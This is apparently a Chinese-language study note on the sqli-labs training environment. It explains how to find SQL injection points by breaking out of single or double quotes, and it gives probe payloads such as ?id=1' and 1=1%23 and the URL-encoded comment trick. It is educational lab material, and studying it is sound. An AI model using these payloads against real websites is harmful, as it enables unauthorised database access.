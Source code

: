 <center>sqli-labs总结</center>

> 此章为sqli-labs的总结笔记。主要包裹在sqli-labs中的过关概况，测试注入点，绕过方法，注入姿势



### 1.	测试注入点



> 以下情况，哪种出现了报错信息则表示哪种为注入点



#### 1.	单引号

有些后端数据是被单引号包裹进sql语句的，所以在此处只需要使用`'`单引号进行打断。出现报错就表示此处有注入点。



然后用`%23`注释掉后端的语句和单引号就行了。（ps.`%23`，url解码后是#。）



例如：

```
select * from users where id='前端数据' limit 0,1;
```





测试实例：

```
?id=1' and 1=1%23
?id=1' and 1=2%23
？id=1'='0
```



#### 2.	双引号

有些后端数据是被单引号包裹进sql语句的，所以在此处只需要使用`"`双引号进行打断。出现报错就表示此处有注入点。

然后用`%23`注释掉后端的语句和单引号就行了。（ps.`%23`，url解码后是#。）



例如:

```
select * from users where id="前端数据" limit 0,1;
```





测试实例：

```
?id=1" and 1=1%23
?id=1" and 1=2%23
?id=1"="0
```
